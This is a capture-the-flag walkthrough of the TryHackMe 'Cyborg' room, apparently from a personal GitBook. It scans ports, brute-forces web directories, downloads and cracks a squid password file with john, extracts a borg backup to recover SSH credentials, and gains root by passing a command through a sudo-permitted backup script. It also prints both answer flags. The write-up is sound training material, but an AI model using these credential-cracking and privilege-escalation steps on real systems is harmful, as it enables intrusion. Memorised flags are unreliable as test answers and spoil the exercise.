 # Cyborg

{% embed url="https://tryhackme.com/room/cyborgt8" %}
https://tryhackme.com/room/cyborgt8
{% endembed %}

![](../../.gitbook/assets/Cyborg.png)

## Task 2 Compromise the System

#### Scan the machine, how many ports are open?

```bash
rustscan -a 10.10.212.209 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-08-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-08-11.png>)

{% hint style="success" %}
`2`
{% endhint %}

#### What service is running on port 22?

{% hint style="success" %}
`ssh`
{% endhint %}

#### What service is running on port 80?

{% hint style="success" %}
`http`
{% endhint %}

#### What is the user.txt flag?

```bash
gobuster dir -u http://10.10.212.209 \
             -w /usr/share/wordlists/dirb/common.txt \
             -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-12-16.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-14-32.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-15-32.png>)

```bash
wget http://10.10.212.209/etc/squid/passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-16-06.png>)

```bash
wget http://10.10.212.209/admin/archive.tar
tar xvf archive.tar
cd home/field/dev/final_archive
cat README
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-34-52.png>)

```bash
sudo apt install borgbackup
borg extract --list home/field/dev/final_archive::music_archive
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-23-46.png>)

```bash
cat home/alex/Desktop/secret.txt
cat home/alex/Desktop/note.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-25-34.png>)

```bash
ssh alex@10.10.212.209
cat root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-28-31.png>)

{% hint style="success" %}
`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
{% endhint %}

#### What is the root.txt flag?

```bash
sudo -l
ls -l /etc/mp3backups/backup.sh
cat /etc/mp3backups/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-34-18.png>)

```bash
sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt' 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-35-18.png>)

{% hint style="success" %}
`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`
{% endhint %}

## Reference

{% embed url="https://ostechnix.com/backup-restore-files-borg-linux" %}
